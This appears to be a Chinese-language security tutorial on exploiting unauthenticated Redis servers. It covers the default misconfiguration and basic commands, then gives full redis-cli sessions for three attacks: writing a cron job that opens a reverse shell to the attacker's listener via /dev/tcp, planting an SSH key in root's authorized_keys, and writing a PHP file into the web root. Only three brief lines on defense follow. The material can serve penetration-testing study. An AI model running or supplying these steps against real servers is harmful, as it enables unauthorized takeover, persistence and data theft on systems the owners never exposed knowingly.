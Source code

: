 # Redis未授权访问漏洞

## 介绍
Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。从2010年3月15日起，Redis的开发工作由VMware主持。从2013年5月开始，Redis的开发由Pivotal赞助。

Redis因配置不当可以导致未授权访问，被攻击者恶意利用。当前流行的针对Redis未授权访问的一种新型攻击方式，在特定条件下，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器，可导致服务器权限被获取和数据删除、泄露或加密勒索事件发生，严重危害业务正常服务。　　

部分服务器上的Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），以及该端口可以通过公网直接访问，如果没有采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，可能造成其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。

## 基础操作
1、配置文件redis.conf \
redis在开放往外网的情况下(默认配置是bind 127.0.0.1，只允许本地访问，如果配置了其他网卡地址那么就可以网络访问)，默认配置下是空口令，端口为6379。这里需要将它（bind 127.0.0.1）注释掉。

版本较高的redis还要将 protected-mode设为no \
redis3.2版本后新增protected-mode配置，默认是yes，即开启，需配置bind ip或者设置访问密码。关闭时，外部网络可以直接访问

2、命令
连接redis：redis-cli -h ip \
查看redis版本信息、一些具体信息、服务器版本信息等等：info \
设置变量x：set x "test" \
整个redis数据库删除：flushall \
查看所有键：KEYS * \
获取默认的redis目录、和rdb文件名：可以在修改前先获取，然后走的时候再恢复。：CONFIG GET dir、CONFIG GET dbfilename \

## 利用
Redis未授权访问漏洞的利用方式网上很多，大多是三种方式

1、利用计划任务执行命令反弹shell

redis以root权限运行时可以写crontab来执行命令反弹shell\
现在自己的机子上监听端口：nc -lvp 7999

```
root@kali:~# redis-cli -h 192.168.63.130
192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/你机子ip/7999 0>&1\n"
OK
192.168.63.130:6379> config set dir /var/spool/cron/
OK
192.168.63.130:6379> config set dbfilename root
OK
192.168.63.130:6379> save
OK
```

2、写ssh-keygen公钥然后使用私钥登陆

同样redis要以root权限，并且服务器开放了SSH服务，允许密钥登录
本地生成密钥对：ssh-keygen -t rsa

```
192.168.63.130:6379> config set dir /root/.ssh/
OK
192.168.63.130:6379> config set dbfilename authorized_keys
OK
192.168.63.130:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKfxu58CbSzYFgd4BOjUyNSpbgpkzBHrEwH2/XD7rvaLFUzBIsciw9QoMS2ZPCbjO0IZL50Rro1478kguUuvQrv/RE/eHYgoav/k6OeyFtNQE4LYy5lezmOFKviUGgWtUrra407cGLgeorsAykL+lLExfaaG/d4TwrIj1sRz4/GeiWG6BZ8uQND9G+Vqbx/+zi3tRAz2PWBb45UXATQPvglwaNpGXVpI0dxV3j+kiaFyqjHAv541b/ElEdiaSadPjuW6iNGCRaTLHsQNToDgu92oAE2MLaEmOWuQz1gi90o6W1WfZfzmS8OJHX/GJBXAMgEgJhXRy2eRhSpbxaIVgx root@kali\n\n\n"
OK
192.168.63.130:6379> save
OK
```

3、往web物理路径写webshell

redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时,可以往web路径写shell

```
192.168.63.130:6379> config set dir /var/www/html/
OK
192.168.63.130:6379> config set dbfilename shell.php
OK
192.168.63.130:6379> set x "<?php phpinfo();?>"
OK
192.168.63.130:6379> save
OK
```

## 防范
限制登录ip
添加密码
修改默认端口